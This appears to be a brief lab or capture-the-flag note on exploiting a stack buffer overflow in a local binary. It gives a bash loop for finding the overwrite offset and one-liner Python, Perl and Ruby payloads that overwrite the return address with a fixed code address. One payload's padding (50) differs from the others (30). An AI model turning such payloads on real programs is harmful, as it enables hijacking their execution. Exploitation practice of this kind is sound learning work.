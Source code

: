 
## Getting Offset

```
for j in {20..45}; do echo -n "$j: "; ./a.out `ruby -e "print 'A'*$j"`; done
```

## One-Liner Payload

```
./a.out `python -c 'print "A"*30 + "BBBB" + "\x5e\x84\x04\x08"'`
./a.out `perl -e 'print "A"x30 . "BBBB" . "\x5e\x84\x04\x08"'`
./a.out `ruby -e 'print "A"*50 + "BBBB" + "\x5e\x84\x04\x08"'`
```